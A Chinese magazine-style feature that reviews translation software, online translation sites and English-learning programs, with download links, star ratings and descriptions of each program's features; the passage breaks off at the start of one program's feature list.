随着互联网技术的不断发展，翻译软件与网络的集成功能进一步增强，Babylon翻译软件可以直接访问搜索引擎和在线百科全书，有助于用户随时了解英语单词和短语的确切含义。点击一个英语单词，界面中将会出现搜寻和参考站点，所以当用户打开它们时，所有有关所选单词的信息，包括相关词组、引申含义，甚至和所选词相关的机构、书籍等都有所介绍，让使用者仿佛从一个词语中走入信息的海洋，让人感觉颇有点“学究”的味道。

- （2）词汇功能
语言支持的种类多是Babylon翻译软件很显著的特点，包括中文、英语、西班牙语、日语、德语、葡萄牙语、法语、意大利语、荷兰语以及希伯来语、瑞典语。同时，Babylon翻译软件可以识别和翻译百万英语单词、短语、表示式、缩略语、专有名词和地名，以及在一般词典中找不到的计算机、医学和法律术语。

- （3）应用环境兼容性和升级维护
Babylon翻译软件可以对任何在线或离线的文本中的英文内容进行翻译，它拥有增长速度很快的翻译信息数据库。巴比伦翻译软件可以与多种操作系统兼容。软件升级维护的方式有：通过提交单词和短语或要求增加某些特定的信息；或者数据库中的单词和短语每周将通过网络自动更新。

- （4）语音朗读能力
Babylon翻译软件可以让用户听到任何被翻译的英语单词或短语的发音。这种功能配有男声和女声。通过下载巴比伦的语音系统，就能听到任何被翻译的英语单词或短语的发音。

- （5）光学字符识别技术
如何在屏幕上识别出各种字体和大小的单词？通用的方法就是采用光学字符识别，由于发展比较早，Babylon翻译软件逐渐的将这种先进的技术推广开来，也逐步赢得了一部分免费用户的青睐。

#### 2. 万能对译

软件下载地址：http://www2.skycn.com/soft/7701.html
软件界面可以和金山词霸相媲美，它可以进行中英、英日、中俄、日韩等多国语言之间的翻译。在功能配置上，用户可以任意设计和修改它，使之适应自己的要求。软件的一个亮点是公布了软件源代码，用户下载后可以仔细研究。

#### 3. 英汉互译王V2007

软件下载地址：http://www.mycun.com/soft.htm
这是一款快速高效的英汉翻译软件，大小只有700多K，不仅可以实现英汉互译，还可实现繁简互译，并伴有语音朗读功能。适用于平时学习英语的过程、上网浏览英文站点、看英文原版书籍或是在做翻译工作等场合。需要注意的是，软件需要注册使用。

#### 4. 大众翻译软件V6.0

软件下载地址：http://www.t1333.com/
大众翻译软件拥有超小的体积，强大的功能，是一款迅速、便捷、高效、准确的迷你即时翻译工具，程序采用快速的动态在线翻译技术，可以实现中文、英文、日文、韩文、德文、俄文等十二种语言翻译。尤其适合于翻译比较短小的文章。

### （二）实用词典类

#### 1. 词霸豆豆 V2.0.0.1

软件下载地址：http://dd.iciba.com

词霸豆豆是金山公司词霸家族全新打造的一款在线词典查询工具，是词霸向互联网转型的重要一步，目的在于通过互联网给广大英语学习用户提供即时、小巧的在线英语查词工具，通过互联网给用户提供更实时、更贴切的语言学习服务。安装文件只有1.5MB，拥有金山词霸全部功能，可屏幕取词，可保存查词历史。另外，词霸豆豆2.0与iciba社区的交互功能很强大，如果不希望安装庞大的专业翻译软件，“词霸豆豆”是个不错的选择。

#### 2. 灵格斯词霸 V1.2.0006-2

软件下载地址：http://www.lingoes.net/

灵格斯词霸是一款功能强大的电子词典翻译软件。它支持英语、汉语、德语、法语、俄语、日语、意大利语、西班牙语等全球超过60多个国家语言的互查互译、支持多语种屏幕取词、索引提示和语音朗读功能，是新一代的词典翻译专家。在使用过程中，只需按下Ctrl键，软件就可以自动翻译出屏幕上鼠标指向的单词。另外，基于开放式的词库管理可以让用户自由安装和管理各类词典。

#### 3. 时代翻译通 V6.0

软件下载地址：http://www.t1333.com/xdfyt/

时代翻译通的最大特点是迅速和便捷，您只需输入所需翻译的内容，就能马上得到翻译结果，支持中、英、法、德、俄、日、韩、荷兰、西班牙、意大利、葡萄牙等国家之间的语言互译，是翻译短小文章的最佳选择。

### （三）专用软件服务类

#### 1. Adobe PhotoShop 双语精灵

软件下载地址：http://www.52soho.net/download.asp

本软件使用方便，是一个名符其实的绿色软件。运行本软件时，只需点击选择系列菜单中的中文版或者英文版，程序就会自动为您生成并打开相应语言版本的Adobe程序，而且还使Photoshop或ImageReady等软件自动记录最后使用的语言界面。也就是说，如果用户直接打开Photoshop或ImageReady，它们都会按照最后使用的语言界面显示，操作更加便捷。适用于Adobe PhotoShop7.0中英文正式版、Photoshop CS中英文版或Photoshop CS2等。

#### 2. 3DSMAX 术语大师 V7.1

软件下载地址：http://www2.skycn.com/soft/9582.html

3DS MAX 术语大师是一款专门针对3DS MAX开发的翻译软件。它可以准确、专业地将3DS MAX中所见的单词、词组和短语翻译成中文，而且对其中的中英文专业术语都给出了详尽的解释，轻松跨越语言和专业障碍，进入丰富多彩的三维动画世界。

#### 3. 译友翻译环境 V1.01

软件下载地址：http://www.glitsoft.com 或 http://www2.skycn.com/soft/10842.html

“译友翻译环境”是一个专门为翻译人员设计的软件环境，在保证翻译质量和不改变工作习惯的前提下，可立即提高翻译速度一倍以上，并大大降低劳动强度。通过将翻译及分析预测功能与输入法紧密结合，软件为翻译人员提供了一个非常高效的工作环境。“原文随动”、“直接定义”、“灵巧跟踪”等许多体贴设计充分考虑了人体工学原理，使人倍感自然、轻松。词库操作简单清晰，快捷键设置便利实用。

## 三、在线翻译：给互联网打开一扇窗户

网络时代，一个强大的翻译软件自然离不开网络。很多情况下，我们可能没有安装专业的翻译软件，这给我们的翻译工作带来了很多麻烦。其实，我们完全可以通过网络解决这些问题。下面，我们精选了几个优秀的在线翻译站点，以配合各类翻译软件的使用。

#### 1. WorldLingo

网站地址：http://www.worldlingo.com/

WorldLingo是国际上最著名的在线翻译引擎之一，同时WorldLingo也是Microsoft Word的合作伙伴，它能够在中文、英语、法语、德语、意大利语、日语、朝鲜语、葡萄牙语、俄语以及西班牙语等语种间互相翻译。该网站提供了多种服务，在翻译准确率和翻译的连贯性上WorldLingo表现比较出色，而且人性化设计比较好。软件界面如图15所示。


- （1）翻译网站
在“网站翻译”区域中，找到“输入URL地址”下方的文本框，并在其中输入待翻译的网址，如：http://blog.sina.com.cn/sohucom。翻译语言选择“简体中文”到“English”，单击“翻译”按钮进行翻译，就可以将中文网站翻译为英文了。稍等片刻，页面就会自动转向到翻译结果页面。单击网页中的任意一个超链接，打开的页面都会被自动翻译。如果是专业网站，则还需在翻译前单击“显示高级选项”，从主题词汇表中选择适合该网站翻译的主题词。这样，翻译出来的结果也将更加准确。

- （2）翻译电子邮件
在工作中，如果收到了一份外文电子邮件，也可以借助WorldLingo来翻译。打开电子信箱，将邮件内容按照WorldLingo“电子邮件翻译”板块的要求进行复制、粘贴。填写完毕，勾选“给我发送一个副本”复选框，单击“翻译并发送电子邮件”按钮。在WorldLingo翻译框中，可以看到邮件翻译的结果，单击下方“打印翻译结果”，就可以将翻译内容打印出来了。
值得一提的是，WorldLingo提供的服务很多，翻译速度也很快，除了即时网站翻译、电子邮件翻译，还有文本翻译、浏览器翻译、聊天翻译、通讯翻译等，丝毫不逊色于专业的翻译软件。

#### 2. ‘看世界’网站

网站地址：http://www.readworld.com/
“看世界”翻译网站精选了美国、英国等国家各类资讯，为我们提供了英文网站的即时翻译服务，并且提供中文的“简繁翻译”、“文件翻译”、“邮件翻译”等功能。只要输入需翻译网站或网页的英文网址，该网站的机器翻译工具会在保持原来版面、格式不动的情况下自动将所需的网页翻译成中英文对照网页。如果将欲翻译的电子邮件转发到该网站的指定信箱中，那么该网站便会通过离线机器翻译功能，将翻译好的邮件发送至用户信箱中。

#### 3. ‘世界语’网站

网站地址：http://www.worldlanguage.com/
该网站提供的语种十分丰富，世界上的绝大多数国家的语言该网站都能进行在线翻译。不过对于某些国家的语言需要我们的计算机中安装相应的字体支持。

#### 4. 金山在线翻译

网站地址：http://dj.iciba.com/
金山词霸在国内的软件市场很受用户青睐，因此，金山在线翻译也拥有一定的用户群。其优点主要体现在对词组、短句的翻译上，只需要将翻译的语句填写到翻译框中就可以翻译完成。网站支持整段文字翻译，支持在线汉译英、在线英译汉、日语翻译、繁体翻译等多语言翻译服务。尤其对中文词组的把握上比较有优势，比较适合国内用户使用。不过，在翻译速度上比较慢，有时还需要排队，如图16所示。


#### 5. DICT.cn在线翻译中心

网站地址：http://cn.dict.cn/trans/
网站提供了在线词典和在线翻译功能，尤其是能够进行翻译结果的比较。其中，在线翻译中心的功能是：自动识别中英文输入，进行英汉、汉英互译；对不同在线翻译资源的服务质量、速度进行评分；不断增加新的在线翻译资源，保证翻译服务的数量与质量。目前，暂时提供了Dict.cn翻译、Babelfish翻译、Google翻译、SysTran翻译、Huajian翻译等结果的对比。

#### 6. Google在线翻译

网站地址：http://www.google.com/language_tools?hl=zh-CN
由搜索巨头Google公司提供。其最大的特点在于能够提供比较全面的语言翻译功能，可供选择的翻译语言比较多。网站提供了十多种语言，可进行网页翻译或文本翻译，而且翻译速度很快。

#### 7. 中国专家翻译网

网站地址：http://www.chinatranslation.net/
中国专家翻译网是专业的翻译网站。提供的即时翻译主要有英汉互译、汉译日、俄译汉和德译汉的服务。该网站翻译功能使用也非常简单，与其他网站的并没有差别。缺点在于翻译功能过于单一，只提供了文本翻译功能。

#### 8. CCSEE看中文

网站地址：http://www.xjx.cc/xinxiangmu/yrfy.htm
CCSEE看中文网站界面非常清新、简洁。页面提供有多种语言的网页翻译功能。其优点在于提供了全网站翻译以及短文翻译功能，速度也是比较快，准确率也是比较高。缺点在于网站的语言翻译选择过于简单，翻译一般词汇比较准确，碰到比较专业的词汇容易出问题。

下面还提供几个优秀的翻译站点，以供参考：

- （1）免费在线翻译网
  http://www.onlinetranslation.cn/
- （2）金桥在线翻译
  http://www.netat.net/
- （3）搜狐在线翻译
  http://trans.learning.sohu.com.cn/tech/transtechnology.asp

通过上面的分析，我们可以看到，翻译软件为我们打开了通向世界各地的一扇窗户，而在网上浏览信息很大程度上需要浏览器的配合，这样我们所了解的Internet才是完整的网络世界。总的来看，浏览器和翻译软件的集成是一个趋势；具有全面双向翻译功能，如网页整页翻译、文件全文翻译、选文自动翻译、文件上载翻译、邮件自动翻译等多种英译汉、汉译英翻译功能的翻译软件也将逐渐受到用户的青睐。此外，在国际化竞争日益激烈的今天，建立统一、规范的翻译项目管理体系，可使企业最大限度地利用现有翻译资源，高效率地完成翻译工作，这也将成为专业翻译软件发展的一个重要方向。

# 更上一层楼：利用软件学英语完全指南

文 / 彭文波

如今，无论是求职还是考试，英语都是一个优秀“人才”所必须具备的能力。随着多媒体电脑的逐渐普及，通过软件、MP3/MP4、网络等方式学习英语的现象已经越来越普遍。但是，在选择英语学习软件的过程中，每个学习者的需求千差万别。比如，有的听力弱一些，有的单词记忆弱一些，这就需要进行有针对性的强化，而不能一味追求使用最好、最大、最全的软件。而且，英语学习和其它学问一样，必须掌握科学的学习方法和适合自己的学习技巧，在此基础上通过一些时间的积累，大家的英语词汇量和英语综合应用能力水平(听、说、读和写)一定会有很大提高。

随着用户需求的不断增加，许多优秀的英语学习辅助工具也应运而生。借助它们，我们不仅可以大大提高自己的学习效率，更可以从中体会更多、更优秀和更先进的英语学习方法。本专题充分考虑各个层次用户的不同需求，通过下载次数、更新时间、人气等方面进行比较后，从听力口语、词句以及综合功能等角度进行详细的分析，同时提供了优秀的下载资源，以帮助使用者迅速提高英语水平。

## 一、综合能力提高篇

### 1. 出自名门: Dr.eye 译典通 V7.0

推荐指数：★★★☆☆

软件下载地址：http://www.dreye.com.cn/

Dr.eye 译典通是享誉华语地区的辞典套装软件，该软件在学习功能上表现尤其突出。软件的英语学习参考资料十分丰富，内容涵盖了英语谚语名言、分类辞典、商务书信大全、英语人名辞源、英语构词法、英语语法、英语不规则动词变化和英语用法等。其学习辅助软件表现十分出色，这里主要介绍：单词通、句型通、试题通、语音通等。

#### （1）单词通

主要用于单词的背诵复习和测试，可以更好地学习和熟记从小学、中学一直到大学、GRE的各级英文单词。点击控制栏上的“单词通”图标按钮，打开单词通窗口。如果觉得单词通窗口位置不太恰当，可把鼠标指针移至单词通窗口最左侧的单词通图标按钮上，按下鼠标左键不放，移动鼠标即可拖动该窗口。开启单词通窗口后，直接进入单词通复习方式——连续显示单词，供浏览、记忆，所显示单词的内容范围、显示速度可以在“单词通设置”中限定，如图1所示。



#### （2）句型通

句型通用于常用句型的复习和测试。点击控制栏上的“句型通”图标按钮，即可打开句型通窗口。开启句型通窗口后，直接进入句型通复习方式。首先，在句型通窗口中点击“测试”按钮，打开句型通测试窗口。然后，在测试窗口中点击“级别”按钮，选择一个测试级别。按照造句顺序点击备选英文单词，使之移动到答题区并连字成句。完成造句后，点击“判题”按钮。如果判断为错误，可点击“重做”按钮，重新组句；或点击“详解”，查看该题的正确答案和分析，如图2所示。



#### （3）试题通

试题通可以根据用户需求生成英文试卷，测试答题后为用户批改试卷，并可查看正确答案。在打开的新建试卷窗口中，选择试卷“类别”和各种“题型”的出题数，还可以自定义“试卷名”。在试题通窗口中，点击选中一份暂存的试卷，然后点击“答题”按钮，即可切换到做试卷方式，如图3所示。

#### （4）语音通

语音通能充分发挥多媒体电脑的优势，结合“听、读”学习语言基本法则，灵活播放课件并支持复读录音。启动Dr.eye 语音通后，可以进入课件管理界面。课件管理界面显示了语音通软件中的所有课件分类及其所含课件，供选择训练或执行添加、删除等管理操作。课件管理界面左侧显示所有课件分类及其对应的操作按钮。课件管理界面右侧是课件列表区，显示所选听力库的课件列表（包括课件名称、长度、类型和位置）以及对应的七个操作按钮。此外，通过“添加课件”按钮可以在分类目录中加入一些课件。

超级应用方案特辑·软件



小技巧：语音通界面右上侧的三个按钮，点击可方便地进行复读训练、跟读训练和听写训练。复读训练主要用于提高听力技巧。要进入复读训练模式，在课件管理界面选择某一课件，双击这一课件或点击“播放课件”按钮。点击“字幕显示”按钮，可以显示或隐藏当前播放课件的字幕。这些字幕会随着播放进程而滚动显示。跟读训练主要用于提高听力和朗读技巧。在课件管理、复读训练和听写训练这些界面，都可以点击右上角的“跟读训练”按钮切换到跟读训练模式。听写训练主要用来提高听力和拼写技巧。复读训练界面如图4所示。



### 2. 英语八哥V7.1

推荐指数：★★★★☆

软件下载地址：http://www.8ge.net/

（1）软件简介

好软件应该像一本好书，每次打开都能发现一些新的东西。作为一款英语学习软件，英语八哥功能多样化，软件界面美观易用，适合初、中级别的英语学习者。

（2）特色功能

功能独特的“八哥复读机”着手于听读单词和口语，包括大量的原音资料，可以充分利用从网络上下载的各种格式的语音资料。该软件特色功能如下：

- ①同步课堂——能说会道、图文并茂的英语教科书
  包括书本再现、即点即读、即指即译、同调变速、波形图示、听音测试、听音打字、字幕视频、自制课件等功能。其中，波形图示即屏幕上显示正在朗读的声音波形图，操作方便，界面直观。
- ②黄金单词——简洁实用、合理高效的单词助记系统
  应用黄金分割记忆法，合理安排学习进度及内容，及时复习防止遗忘。通过初记（全面理解）、复习（词义回想）、巩固（循环播放），加强单词记忆。
- ③海量阅读——资料丰富、功能完整的英文阅读训练
  在海量阅读模块中，内置了句子、小说、教材课文、诗歌、电影剧本、文摘、笔记讲座、哲语等丰富的资源，可以中英文对照，循环朗读，有效提高英文阅读能力。文本资料十分丰富，包括：生意英语、求职英语、社交英语、旅游英语、英语900句、新英语900句、练口语3000句、各种时态例句、谚语1500句、走遍美国等，还有许多小说诗歌剧本、教材课文等。
- ④动画英语——生动活泼、情景交融的动画英语教学
  软件为每一篇课文单独提供一个故事情景，多达15个卡通人物登台对白表演，并辅以Flash精美动画及背景音乐，在如看电影般的享受中学习英语。软件包含许多独具特色的动画英语教程——动画学字母、动画学音标、动画学语法、动画学单词、动画学拼音、听歌学英语、动画英语故事、小学英语动画、灵通少儿英语动画、新派少儿英语动画、英语九百句动画。界面如图5所示。



- ⑤五大辅助学习工具
  包括：八哥复读机、会话精灵、题海轻舟、随身听霸、单词终端。其中，软件内置英语语法题库，并且可以新建及编辑题库，轻松检测自己的英语水平。

不过，需要注意的是，软件比较大，下载时要有点耐心。

### 3. 慈心影文学习机V12.2

推荐指数：★★★☆☆

软件下载地址：http://seawan.nyist.net/kle/

（1）软件简介

这是一套基于经典智慧学理论，以“心理转变”、“词感养成”和“语言直接理解”为目的的语音辅助学习系统。软件以原声影视为素材进行英语口语、英语听力、英语情景会话和英语词汇英汉快速互查等的综合英语能力训练，又叫“K学习环境（K Learning Environment）”或“词（慈）感学习觉悟系统”，用户可以在欣赏和娱乐中不知不觉地提高自身英语语感和英语综合应用能力。

（2）特色功能

影文学习系统的特色在于，在电影媒体以极丰富的声、光和剧情信息刺激用户的耳目和大脑时，同步显示对话的文本和基于用户水平的生词信息，便于用户学习。同时，软件提供了方便的播放控制和复读功能，使用户在初次学习的时候就获得相当的印象；然后，通过温习、总结、复习一条龙的完整过程，强化心理取向，形成牢固的直接反应的心理惯性，从而真正达到掌握外语的目的。

- ①中英文字幕同步对照播放
  可以以对话为时间单位进行自由媒体播放，紧缩播放（跳过无对话部分），任意复读，可以进行预定义段落和用户自定义段落的播放、复习、标记。支持各种格式的字幕，包括SubRip（.srt）、MicroDVD（.sub）、SAMI（.smi）和“歌词秀”（lrc）格式。
- ②素材资源丰富
  具有大量免费的电影学习素材下载，用户可以随时找到自己感兴趣和喜爱的语言环境，如图6所示。



- ③高级查询
  在软件的字典功能“高级查询”中，用户可以同时查找多个“关键词”。如果用户在进行电影欣赏和英语学习的过程中有什么心得，则可以用软件的“书写笔记”功能随手记下，软件会自动记忆该笔记在所播放影视素材中的具体位置。
- ④录音功能
  在学习的过程中，随时可以点击“录音”按钮进行录音；录音文件以MP3格式存放，存放的路径可以在“配置KLE”窗口中调整，当点击“停止录音”按钮后，还可以使用“播放录音”按钮播放录制的MP3文件，再次点击可恢复原素材媒体的播放。

另外，软件还具有WAV文件向MP3文件转换、录音机、网络电台内容播放、自定义学习影视和字幕素材、共享书写笔记及全面兼容“歌词秀”格式和金山词霸等功能。不过，需要注意的是，软件基于Java语言平台，初次使用时需要进行免费注册。

### 4. 英语全能通V0.83

推荐指数：★★★☆☆

软件下载地址：http://www.skycn.com/soft/9461.html

（1）软件简介

软件原名为“Enwin（英赢）”，是一款易用的英语学习工具。在单词背诵方式上，用户可以选择逐个浏览、自动浏览、按词根浏览和自己填词等适合自己的学习方式，并能将显示的单词快速标记为“熟词”或“生词”。在“全能单词”中，软件提供了从初一到大学四级英语的所有词汇，每个单词都有音标、词性、词意和用户设置的单词生熟级别等注解。

（2）特色功能

英语全能通包括三个实用程序：“全能单词”、“全能读写”和“全能快打”，通过英语单词与英语整篇文章相结合的方式来提高英语综合水平，虽然软件名称和功能还有一定差距。此外，“全能读写”还是一个练习英文写作的好助手，能够对单词或整篇文章进行中英文语音朗读。在编辑面板中，用户每输入一个单词或词组，软件就会自动给出该单词或词组的音标、词意和用法等信息。软件还支持将用户输入或打开的英文文档进行无重复词汇提取并导入到词库中，能够将用户编辑的英文文档转换成WAV语音文件等。值得一提的是，如果用户需要进行英文写作或指法训练及英文录入测试，“全能快打”功能能轻易满足要求，通过它可以对录入单词数量和录入速度进行全面统计。

### 5. 名师在线——边缘英语学习V5.0

推荐指数：★★★☆☆

软件下载地址：http://www.skycn.com/soft/2402.html

（1）软件简介

这款软件以网络为依托，功能侧重于大型综合英语学习和训练，可以为用户提供单词、句型、语法、口语、语音语调、英文阅读、英文写作、英语能力测试、各种英语课程同步辅导和英语学习方法指导等全方位的英语学习帮助。另外，软件还具有多用户支持、在线英语语音聊天、英语试题命制、自由下载及定制词库、打印英语学习资料、动画角色更改、英语学习方法每日一句和玩游戏背单词等众多实用功能。

（2）特色功能

- ①软件提供了丰富的词库，用户选择相应词库后，可以对所选词库的单词或语句进行浏览/复读、迷你浏览器浮动浏览、添加生词本和多功能综合测试等学习和训练。在软件的“多功能词典”中，可以提供对用户所查阅单词的“字母相近拓展”和“词义相近拓展”的学习功能，让用户通过查“一个”而学“一串”，从而“触类旁通”。

超级应用方案特辑·软件

- ② “综合学习”模块很实用。在软件的“综合学习”模块中，用户可以分别进入语法教室、写作教室和英语讲座教室进行英语指定知识模块的学习，学习内容包括指定课文教程、名句欣赏、英语经验体会、文字名著欣赏和语法串讲（按词性、句型、虚拟语气、动词语态和基础英语语法十讲分类）等。经过一段时间的学习，用户可以在“综合考试”模块中按语法进阶和指定词库进行学习效果的自我检测。

### 6. 英语全程导师 V7.8

推荐指数：★★★☆☆

软件下载地址：http://xinhaifu.gbaopan.com/

（1）软件简介

软件使用方便，具有朗读、真人语音、分类管理和资料查阅、词典等功能。

（2）特色功能

主要表现在以下几个方面。

- ① 朗读和真人语音
  能使用美式英语或者英式英语朗读英语并能朗读中文，非常方便控制。同时，用户可为文档链接连接真人朗读的声音文件，打开文档时自动播放，并可保存播放的位置，软件还提供了在线下载“真人语音”文件的功能。真人语音可实现跟踪定位，并且可以直接点击文档中的单词来控制播放位置。
- ② 分类管理和资料查阅
  资料库中包含了英语900句、电话英语、商务英语、文秘英语、求职英语、出差旅游英语、社交英语等上万句常用英语对话及初、高中课文等。软件本身包含了一个英语学习库，用户可根据需要添加、编辑各类英文资料，例如小说、文章、单词等。软件中的部分资料与时尚英语、新浪英语网站几个栏目保持同步更新；采用独创的网页内容分离技术并可即时存储到数据库。
- ③ 英文词典
  内置词汇量达86000多的英汉词典，用户在阅读英文文章时软件即时显示出当前选择单词的注解并可查看相关的句子和其他单词。

小技巧：Microsoft Word XP/2003也提供基本的语法和拼写检查、英汉双语词典和翻译功能，并可链接至万维网上的翻译服务，词库包括了从初级词汇到高级英语词汇，以及分门别类的科技词汇等。

首先，Word可以自动检查拼写和语法错误，并对可能出错的拼写及语法下显示下划线进行标记。选择“工具”菜单下的“拼写和语法”命令，Word会自动找出文档中的错误。

其次，写完一篇短文之后，可以对文章的内容进行一下评定。设置方法如下：选择“工具”菜单下“选项”命令，在“拼写和语法”选项卡中选择“显示可读性统计信息”复选框。在Word中执行“拼写和语法”检查之后，便会出现相关的统计信息，此信息包括所写文章的段落数、句子数、单词数、字符数及每段平均句子数等信息。

此外，Word XP/2003可以进行英汉单词的双向翻译，选择“工具”菜单下的“语言”，然后选择“翻译”命令，打开“翻译”对话框，在“文字”栏中输入需要翻译的词语，然后选择将“中文”翻译为“英语”，回车后，翻译结果即可显示出来，如图7所示。



## 二、听力口语提高篇

从国内英语学习的情况来看，“中国式英语”和“哑巴英语”的问题十分严重。有的学生学习了十几年英语，仍然不能听懂英语，更不用说开口讲英语了。现在，出现了许多专门针对听力和口语学习的软件，下面精选其中几款进行讲解。

### 1. 学英语——单词与口语 V2007 特别版

推荐指数：★★★★★

软件下载地址：http://www.engqq.com/

（1）软件简介

软件集英语口语、听力学习和背单词于一体，运用幽默风趣的卡通角色进行英语发音，结合具有特色的英语软件听、写、读功能和轻松愉快的学习环境，可以全方位地掌握英语口语、对话和单词。此外，软件加强了趣味化功能，通过综合运用逆向学习法和疯狂英语学习法，对学习者具有很好的启发作用。

（2）特色功能

- 庞大的用户群和良好的用户反馈，奠定了它在同类软件中的佼佼者地位。
- ① 卡通化的学习环境
  软件运用可爱的电脑卡通人物，以纯正的英语朗读精选的英文语句或单词，极具娱乐性和趣味性。还可以选择以隐藏方式自动播放，学习者在使用电脑进行工作、学习或娱乐的同时，就能不知不觉、轻轻松松地掌握各类日常英语会话、英语单词。该方式既摆脱了枯燥的传统学习方法，又充分利用了在电脑前的各种冗余和等待时间，提高了学习效率。
- ② 丰富的课程选择
  软件选择范围很广泛，可以满足不同层次和难度的用户需要。在真正进入学习之前，在两个动物形象中任意一个上右击，在弹出的菜单中选择“选择学习库”，从其子菜单中就可以看到程序提供了多类学习库。软件内置64
- ③ 个性化环境和学习库设置
  通过右键菜单选择，用户能够对播放控制、背景音乐、界面皮肤、悬浮窗口、卡通角色、中文语音等对象进行设置。而且，用户可以将自己使用频率比较高的，或者难以掌握的内容添加到笔记库中。在右键菜单中选择“编辑笔记库”下拉菜单中的情景对话笔记库、口语笔记库或单词笔记库，在打开的窗口中即可进行设置。
- ④ 听、读、写、记功能
  逆向学习法的精髓就是听，反复地听，直到能听懂。可以通过软件的播放设置功能对您所要学习的口语与单词进行反复听，直到弄懂。软件中的“英语跟读练习”就可以让用户对着麦克风跟着标准的英语语音进行大声地说，并可以校验发音的准确性，直到纠正英语发音。听写功能可以对口语或单词进行听写，并能进行评分。当碰到较难或陌生的句子与单词时，可以先把它添加到“学习笔记”中然后就可以重点有针对性地学习这些句子或单词了。英语复读功能如图8所示。



此外，软件还可以方便地自行增加和修改情景对话和文档的内容，或者选择需要的英语口语或英语单词进行打印，甚至还可以制作出个性化的MP3学习文件。

### 2. Englishfield V3.4

推荐指数：★★★☆☆

软件下载地址：http://www.englishfield.net/

（1）软件简介

EnglishField英语学习软件是一个在家中学习英语的实用有效的工具，它通过各种情景下的纯正英语短文，迅速提高您英语口语、听力水平。所有文章都选自标准英语发音，并且与以往其他学习软件相比不同的是，EnglishField英语学习软件采用真人地道读音，这是一个最贴近时代和生活的英语学习软件。

（2）特色功能

EnglishField英语学习软件适合于不同英语水平的学习者。具有以下功能：

- ①内容丰富，实战性强
  可以根据各人的不同需要选择初中新目标英语Go for it、新概念英语、走遍美国、欧美经典电影、英语九百句、VOA慢速、VOA常速、BBC原声英语及加拿大英语等不同特色的标准英语，以适应各位英语爱好者在不同场合下的需要。
- ②听力练习
  听力是英语学习者最大的问题，同时它又是中国人学英语的一个瓶颈。没有相当的听力水平，要想达到英语突破是一句空话。通过软件的严格训练，学习者可以在纯正的英语环境下提高自己的听力水平，如图9所示。



此外，软件还提供了打字练习功能。在打字的过程中，软件会一遍遍播放文章和句子，在提高打字水平的同时，无形中提高了英语听力水平。

### 3. 英语小精灵 V6.0

推荐指数：★★★☆☆

软件下载地址：http://www.kytop.net/

（1）软件简介

软件从听、说、读、写多方位着手来改善英语学习，其“音、转、查、印、增”等功能能方便用户英语学习。

（2）特色功能

真人语音资料包含新概念英语等6000多句真人语音内容，还有英语900句、电话英语、商务英语、文秘英语、求职英语、出差旅游英语、社交英语等八大类共9000余句，此外，还包括了常用英语对话和情景对话内容，以及新版初中高中英语课文、大学英语精读、大学英语自学教程和新概念英语等。

## 三、单词句型提高篇

大量的词汇是学好英语的基础，熟练的句型则能够进## 超级应用方案特辑·软件

一步提高英语阅读的能力。但是，一般背单词的过程十分枯燥乏味，时间长了就很容易忘记。如果能够利用电脑上的单词软件来背单词，我们就有可能搭建一个虚拟的英语环境，提高学习的速度，从而达到事半功倍的效果。下面，介绍几款优秀的单词和句型软件。

### 1. 疯狂单词V3.08
推荐指数：★★★★☆
软件下载地址：http://wainsoft.com/

#### （1）软件简介
疯狂单词曾荣获多项编辑评比大奖。软件在总结比较了数十种传统单词速记法的基础上，结合先进的计算机人工智能技术，首创了无忧单词记忆智能系统。疯狂单词依靠内建的词汇量动态估测，自动难度进级，效果自适应复习，随机试题生成、联想记忆等智能块，以及数百万字专家整理的记法例句记忆库，用户可以轻松进入记忆状态。

#### （2）特色功能
疯狂单词提供三种学习模式和十余种学习方式，用户可以随意组合，从音形意多方面强化记忆效果，辅之以精辟的记法说明和经典例句，使用户达到词汇活学活用，永记不忘的境界。从“无忧记忆”模式到“自由空间”模式，系统的智能化体现虽然是逐渐降低的，但是用户的自由度却在不断增加，能够满足不同要求的用户以及用户在不同学习阶段的需求。

- ① 无忧记忆
在该种模式下用户无需选择书本，只要在计算机的提示下答题，系统会自动测试词汇量，并自动调整单词学习的难度级，随着词汇量不断上升，所学单词的难度级会越来越大，直到达到20000词汇量。软件界面如图10所示。



- ② 词库自选
此模式最大的特点在于提供了书本选择和强大的范围限定两个功能，用户可以自己选择书本并确定范围进行词库突破。如果当前词条没有音标、解释、记法、例句，则从系统库中自动查找并添加。

- ③ 自由空间
“自由空间”模式是为某些用户希望自由快速学习或复习单词而特别定制的。该模式没有答题方式的人机交互，系统不会自动改变单词状态，用户可以手动更改。并且提供了5种有效取词方式和3种显示方式，用户可以任意组合成15种学习方式，达到高效学习的目的。另外提供了全屏动画、置顶显示、标题栏显示等流行记忆模式，帮助用户最大限度地记忆单词。

此外，软件新增了MP3制作功能，歌词文件具有导出功能，从而把MP3变成真正的可视学习机。

### 2. 向明单词通V2007
推荐指数：★★★☆☆
软件下载地址：http://www1.skycn.com/soft/8239.html

#### （1）软件简介
“向明单词通2007标准版”是一款优秀的英文单词学习软件，它采用了微软先进的TTS语音引擎和幽默风趣的卡通角色进行发音。结合具有特色的英语软件听、写、读、测试等功能和轻松愉快的学习环境，可以让用户在不知不觉中全方位地掌握英语单词、口语和对话。向明单词通中集合了大量的英文课本内容，十分全面。

#### （2）特色功能
向明单词通软件小巧，占用系统资源很少。除了具有特色的英语学习三大模块（速览、选题、测试）等功能外，还提供了词条辅助程序功能，单词库强大完善，信息统计详细准确。

- ① 自创字库，针对性练习
除了软件自带的字库之外，向明单词通还拥有自创字库的功能，学习者可以根据自身情况针对个别薄弱的单词进行统筹规划，系统练习，词库作坊十分的方便实用，并且支持多种格式文件，相当完善。词条作坊如图11所示。


- ② 方便的综合测试功能
当学习完一个单元的英文单词后，软件提供了对英文单词测试的功能。导入单元内容之后便可以开始本单元的测试。测试过程十分轻松有趣，软件提供了提示功能，由于加上语音听写内容，使得该软件更加完善强大。软件界面右侧显示了本次测试后的成绩以及对拼写错误单词的正确解释，非常全面细致。

- ③ 发音标准
速览结束后，可以通过选题进行对当前字库中内容进行单项选择，以便对单词加深印象。系统默认的选题模式为显示单词后进行对该单词正确意思的挑选，除此之外该软件提供了多种选题模式。软件采用了微软的TTS语音引擎，在听写练习当中可以进行十分标准的朗读发音，有利于改进学习者单词发音不准的问题。

### 3. Ab英语单词通
推荐指数：★★★☆☆
软件下载地址：http://abenglish.52blog.net/ 或 http://www.skycn.com/soft/22241.html

#### (1) 软件简介
“Ab英语单词通”是一款优秀的辅助电脑学习软件，可以帮助英语学习者迅速有效地学习英语，掌握英语。

#### (2) 特色功能
